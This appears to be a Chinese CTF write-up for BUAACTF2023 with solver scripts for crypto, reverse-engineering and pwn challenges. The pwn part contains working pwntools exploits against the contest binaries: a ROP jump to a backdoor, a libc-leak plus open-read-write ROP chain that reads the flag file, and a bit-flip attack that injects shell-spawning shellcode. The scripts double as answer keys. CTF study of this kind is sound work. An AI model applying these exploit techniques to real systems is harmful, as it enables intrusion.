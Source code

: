 ---
title: "BUAACTF2023 WP"
date: 2022-03-28T13:53:31+08:00
tags: ['ctf', 'pwn']
categories: ['life', 'learning']
draft: false
cover: "/img/2023-04-26_buaactf2023.png"
---
* crypto
** Block Cipher
直接写个解密
#+begin_src python
def decrypt(parts):
    iv = b'\xba=y\xa3\xc6)\xcf\xf7'
    key = b'}6E\xeb(\x91\x08\xa0'
    results = []
    for index, part in enumerate(parts):
        results.append(reduce(xor, [part, iv if index == 0 else parts[index-1], key]))
    return results
#+end_src

* pwn
** NLP
pwntools使用。后面的信息提取有点恶心
#+begin_src python
#encoding: utf-8
from pwn import *
p = remote("10.212.26.206", "23004")

for i in range(20):
    p.recvuntil("A = :")
    a = int(p.recvline())
    p.recvuntil("B = :")
    b = int(p.recvline())
    p.recvuntil("a ")
    op = p.recv(1)
    p.recvuntil("b:")
    if(op == b"+"):
        p.sendline(str(a+b))
    elif(op == b"-"):
        p.sendline(str(a-b))
    elif(op == b"*"):
        p.sendline(str(a*b))

ID_address={"110000":"北京市",
"110100":"市辖区",
"110101":"东城区",
"110102":"西城区",
"110103":"崇文区",
"110104":"宣武区",
"110105":"朝阳区",
"110106":"丰台区",
"110107":"石景山区",
"110108":"海淀区",
"110109":"门头沟区",
"110111":"房山区",
"110112":"通州区",
"110113":"顺义区",
"110114":"昌平区",
"110115":"大兴区",
"110117":"平谷区",
"110116":"怀柔区",
"110228":"密云区",
"110229":"延庆区"
}

def sortinfo(info):
    sortedinfo = [0, 0, 0, 0, 0, 0 ,0, 0]
    for i in info:
        if len(i)==11 and i.isdigit():
            sortedinfo[0] = i
        elif '@' in i:
            sortedinfo[1] = i
        elif 'http' in i:
            sortedinfo[2] = i[:-1]
        elif i[-1] == '日':
            sortedinfo[3] = i
        elif '.' in i:
            sortedinfo[4] = i
        elif len(i) >= 18 and i[-18:-1].isdigit():
            sortedinfo[5] = i[-18:]
        elif 'k-' in i:
            sortedinfo[6] = i
        else:
            sortedinfo[7] = i
    return sortedinfo

def parseinfo(infostr):
    info = []
    for i in range(8):
        infostr = infostr[infostr.find("：")+1:]
        s = infostr[:infostr.find("。")]
        infostr = infostr[len(s):]
        info.append(s)
    def parse_id(ID_card):
        ID_add=ID_card[0:6]
        ID_birth=ID_card[6:14]
        ID_pdnum=ID_card[14:16]
        ID_sex=ID_card[16:17]
        ID_check=ID_card[17:18]
        if int(ID_sex)%2 !=0:
            sex='男'
        elif int(ID_sex)%2==0:
            sex='女'
        output = " (地区: "+ID_address[ID_add]
        output += ", 生日: "+ID_birth[:4]+"年"+str(int(ID_birth[4:6]))+"月"+str(int(ID_birth[6:]))+"日"
        output += ", 性别: "+sex+")"
        return output
    print(info)
    info = sortinfo(info)
    print(info)
    output = "电话: "+info[0]
    output += " | 邮箱: "+info[1]
    output += " | URL: "+info[2]
    output += " | 日期: "+info[3]
    output += " | IP: "+info[4]
    output += " | 身份证: "+info[5]+parse_id(info[5])
    output += " | 薪资: "+info[6]
    output += " | 工作时间: "+info[7]
    return output
# def extra():
#     p.recvuntil("：")
#     return p.recvuntil("。", drop=True)
p.recvuntil("Sample Ad:\n")
samplead = str(p.recvuntil("Sample Output:\n", drop=True).decode())
print(samplead)
parsedsample = parseinfo(samplead)
sample = str(p.recvuntil("Generated Ad:\n", drop=True).decode())
print(sample)
print(parsedsample)

def parse_ad():

    infostr = str(p.recvuntil("Please", drop=True).decode())

    print(infostr)
    output = parseinfo(infostr)
    print(output)
    p.sendline(output)
    # p.interactive()

# p.interactive()
for i in range(20):
    parse_ad()
    log.success("round"+str(i))
p.interactive()
#+end_src
** pirate
跟着算法走一遍就行，然后rop跳到后门
#+begin_src python
from pwn import *
p = process("pirate")
p = remote("10.212.26.206", "23002")
p.recvuntil("you and ")
pir_num = int(p.recvuntil(" ")) + 1
p.recvuntil("have ")
gold_num = int(p.recvuntil(" "))
gold_dist = list(range(pir_num+2))
gold_rem = gold_num
for i in range(pir_num, 0, -1):
    v6 = pir_num - i + 1
    v10 = 0
    for j in range(pir_num, i-1, -1):
        if v6 == pir_num - j + 1:
            gold_dist[j+1] = gold_rem
            gold_rem -= gold_dist[j+1]
            v10 += 1
        elif gold_dist[j+1] <= 0:
            gold_dist[j+1]=1
            gold_rem -= 1
            v10 += 1
        else:
            gold_rem += gold_dist[j + 1]
            gold_dist[j + 1] = 0
    if float(v10)/v6 < 0.5:
        break
for i in range(2, pir_num+2):
    p.sendline(bytes(gold_dist[i]))
# p.interactive()
p.recvuntil("something.")
payload = 'a'*16+p64(0x40101a)+p64(0x401236)
p.sendline(payload)
p.interactive()
#+end_src
** noshell
基础orw
#+begin_src python
from pwn import *
p = process("noshell")
p = remote("10.212.26.206", "23001")
elf = ELF("noshell")
libc = ELF("libc-2.27.so")

num = 0x404080
rdiret = 0x401373
# leak
p.recvuntil("~\n")
p.sendline(p64(0))
p.recvuntil("?\n")
payload1 = 'a'*16+p64(rdiret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
p.send(payload1)
putsgot = u64(p.recvuntil('\x7f').ljust(8, '\x00'))
log.success("puts got: " + hex(putsgot))
libcbase = putsgot - libc.sym['puts']
# p.interactive()

o = libc.sym['open']+libcbase
r = elf.plt['read']
w = elf.plt['puts']

# orw
rspret = 0x396c + libcbase
rdxrsiret = 0x130539 + libcbase
payload2 = p64(rdiret)+p64(num+0x100)+p64(rdxrsiret)+p64(0)+p64(0)+p64(o)
payload2 += p64(rdiret)+p64(0x3)+p64(rdxrsiret)+p64(50)+p64(num+0x100)+p64(r)
payload2 += p64(rdiret)+p64(num+0x100)+p64(w)
payload2 += 'a'*(0x100-len(payload2))
payload2 += './flag\x00'

# p.interactive()
p.recvuntil("~\n")
p.sendline(payload2)
p.recvuntil("?\n")
payload3 = 'a'*16+p64(rspret)+p64(num)
p.sendline(payload3)
p.interactive()
#+end_src

** lose yourself
给了一个mprotect后门让.text段可写。程序的功能是每次修改任意地址的1个bit。那思路就是想办法跳转到mprotect后门，然后在代码段写入shellcode，最后想办法跳过去。

所以第一步是想办法跳到后门上。注意到在写完bit后用了一个exit。第一次修改就改exit的got。作者精心准备了一连串的空函数作为跳板，跟着走到最后能把exit的got改成后门地址。
#+begin_src python
from pwn import *
import binascii
from Crypto.Util.strxor import strxor
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h']
p = process("one_chance")
p = remote("10.212.27.23", "12138")

def flip_bit(addr, bitnum):
    p.recvuntil("?")
    p.sendline(addr)
    p.sendline(bitnum)

# call mprotect
flip_bit("404039", "0")
flip_bit("404038", "6")
flip_bit("404038", "7")
flip_bit("404038", "2")
flip_bit("404038", "1")
#+end_src
然后往0x10e1写入shellcode，这样就能通过改最后jmp地址的一位跳过去。
#+begin_src python
# write shellcode
dump_10e1 = binascii.unhexlify("50 54 49 C7 C0 10 13 40 00 48 C7 C1 A0 12 40 00 48 C7 C7 D5 11 40 00 FF 15 F2 2E 00 00 F4 90 F3 0F 1E FA C3 66 2E 0F 1F 84 00 00 00 00 00 90 B8".replace(" ", ""))
shellcode = asm(shellcraft.amd64.linux.sh())
modi_bytes = strxor(dump_10e1, shellcode)
for idx, i in enumerate(modi_bytes):
    if i != '\x00':
        log.success("flipping "+hex(int("0x4010e1", 16)+idx))
        for j in range(8):
            if 2**j & ord(i) != 0:
                p.recvuntil("?")
                p.sendline(hex(int("0x4010e1", 16)+idx))
                p.sendline(str(j))

# modify jmp
p.recvuntil("?")
p.sendline("401299")
p.sendline("0")
p.interactive()
#+end_src
* re
** snake
其实直接动态调试就能出来。但我开始没想到，用python des解密出来的。
[[/img/2023-04-26_snake.png]]
flag 用des加密后存在数据段。密钥直接写在代码里
[[/img/2023-04-26_desdecrypt.png]]
** minesweep
[[/img/2023-04-26_minesweepenc.png]]
加密过程用到了mine数组，一个7*7，用字符‘a'和'b'表示。然后对flag前7个字符中的小写字母加密。第i个字符用mine中的第i行以及该字符后面的6个字符一起加密。这样只要从后往前恢复每个字符就行。但是mine在程序运行后会先计算周围的地雷数量。
[[/img/2023-04-26_minecal.png]]
可以直接动调后再把mine倒出来解密。
#+begin_src python
mine2 = [
    [0, 2, 2, 3, 3, 2, 3],
    [2, 4, 3, 2, 3, 2, 0],
    [2, 5, 3, 4, 1, 2, 2],
    [3, 3, 3, 1, 3, 2, 2],
    [3, 3, 4, 1, 3, 1, 2],
    [2, 2, 0, 3, 4, 2, 2],
    [0, 3, 2, 3, 1, 0, 2]
]
c = "vahii"
for k in range(4, -1, -1):
    temp = 0
    for i in range(7):
        for j in range(7):
            temp += (ord(flag[i])-97)^mine2[i][j]
    poschr = ""
    for l in range(26):
        if chr((temp^l)%26+97) == c[k]:
            tmpchr = chr(l+97)
            poschr += tmpchr
            break

    print(temp, c[k])
    print(poschr)
    flag = tmpchr+flag

print(flag)
#+end_src

** ezvm
初始化的地址做了1字节的偏移，ida上稍微调整一下。大致是malloc了两个结构体，第一个便宜0x40的地方用来存指令地址和ip，ZF，还有第二个结构的地址。第二个用来存输入字符串和加密后的flag。
[[/img/2023-04-26_11e9.png]]
然后是痛苦的瞪。瞪了一下午硬逆了8条指令。
[[/img/2023-04-26_ezvm.jpeg]]
最后解析指令集，发现只是简单的xor。
以前没有怎么做过re，这次做这题本来是为了做pwn的ezvm。后面感觉快出了但时间不太够了。。
